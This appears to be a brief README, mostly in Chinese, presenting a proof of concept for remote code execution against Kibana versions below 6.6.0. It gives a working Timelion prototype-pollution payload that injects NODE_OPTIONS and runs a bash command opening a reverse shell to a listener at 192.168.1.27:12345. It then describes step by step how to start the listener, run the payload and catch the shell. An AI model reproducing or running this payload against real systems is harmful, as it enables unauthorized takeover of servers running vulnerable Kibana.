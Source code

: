 # kibana-RCE <6.6.0

*监听端口
![](./kibana1.jpg "监听端口")

POC：
.es(*).props(label.__proto__.env.AAAA='require("child_process").exec("bash -i >& /dev/tcp/192.168.1.27/12345 0>&1");process.exit()//')
.props(label.__proto__.env.NODE_OPTIONS='--require /proc/self/environ')
*执行POC
![](./kibana_2.jpg "点击RUN执行")
*成功反弹shell
![](./kibana3.png "成功反弹shell")

